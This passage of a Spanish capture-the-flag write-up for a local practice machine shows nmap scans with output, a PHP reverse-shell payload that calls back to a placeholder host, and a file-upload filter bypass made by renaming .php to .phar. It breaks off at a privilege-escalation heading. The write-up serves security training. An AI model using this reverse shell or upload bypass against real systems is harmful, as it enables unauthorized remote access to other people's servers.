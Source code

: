 Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-14 09:43 EST
Nmap scan report for 172.17.0.2
Host is up (0.000030s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.20 seconds
```

Vemos que solo tenemos un puerto que es una pagina web en la que pone `Sube tu archivo`, si le damos al boton `Subir archivo` veremos que podremos subir un archivo, por lo que intentaremos generarnos una `reverse shell` con un archivo `PHP`:

> shell.php

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Si subimos el archivo con la extension `.php` nos lo bloqueara, pero si probamos a `Bypassear` la extension con un `.phar` y veremos que si nos deja.

```shell
mv shell.php shell.phar
```

Y ahora si lo subimos, nos pondra lo siguiente:

```
Archivo subido correctamente.
```

Vamos a realizar un poco de `fuzzing` para ver donde puede estar nuestro archivo.

## Escalate user www-data
